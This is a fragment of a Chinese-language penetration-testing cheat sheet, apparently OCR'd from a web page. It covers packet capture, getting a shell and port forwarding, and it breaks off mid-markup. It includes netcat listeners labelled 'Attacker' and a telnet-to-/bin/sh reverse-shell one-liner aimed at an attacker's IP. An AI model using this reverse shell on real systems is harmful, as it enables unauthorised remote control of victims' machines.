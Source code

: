 <table>
<tbody>
<tr>
<td>`2`</td>
<td>`tcpdump tcp dst 192.168.1.7 80 and tcp dst 10.2.2.222 21`</td>
</tr>
</tbody>
</table>
</div>
</div>
</div>
**你如何get一个shell？你如何与系统进行交互？**

# http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
<div id="highlighter_939419">
<div>
<div>
<table>
<tbody>
<tr>
<td>`1`</td>
<td>`nc -lvp 4444    ``# Attacker. 输入 (命令)`</td>
</tr>
</tbody>
</table>
</div>
<div>
<table>
<tbody>
<tr>
<td>`2`</td>
<td>`nc -lvp 4445    ``# Attacker. 输出(结果)`</td>
</tr>
</tbody>
</table>
</div>
</div>
</div>
telnet [atackers ip] 44444 | /bin/sh | [local ip] 44445    # 在目标系统上. 使用 攻击者的IP!

**如何端口转发？（端口重定向）**

**# rinetd**
<div id="highlighter_682818">
<div>
<div>
<table>
<tbody>
<tr>
<td>`1`</td>
<td>`# [http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch](http://www.howtoforge.com/port-forwarding-with-rinetd-on-debian-etch)`</td>
</tr>
</tbody>
</table>
</div>
</div>
</div>
**# fpipe**
<div id="highlighter_261265">
<div>
<div>